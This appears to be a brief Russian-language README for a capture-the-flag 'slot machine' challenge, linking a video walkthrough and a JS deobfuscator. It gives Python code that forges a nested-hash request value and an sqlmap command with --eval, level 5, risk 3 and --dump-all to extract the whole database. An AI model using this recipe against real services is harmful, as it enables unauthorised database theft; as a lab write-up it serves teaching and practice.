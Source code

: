 # Игровой автомат

# Подробное видео с разъяснениями 

[Youtube | rolegiv CyberSec](https://youtu.be/NjAeN_qnzZ0)

# Деобфускация JS

[deobfuscate.io](https://deobfuscate.io/)

# Шифрование значения hash для запроса

```
import hashlib

result='777'

hash=hashlib.md5(hashlib.sha256(hashlib.sha1(hashlib.sha256(hashlib.sha1(result.encode('utf-8')).digest()).digest()).digest()).digest()).hexdigest()

print(hash)
```

# SQLmap

```
sqlmap --eval "import hashlib;hash=hashlib.md5(hashlib.sha256(hashlib.sha1(hashlib.sha256(hashlib.sha1(result.encode('utf-8')).digest()).digest()).digest()).digest()).hexdigest()" -r request1.txt —level 5 —risk 3 --flush-session --dump-all
```

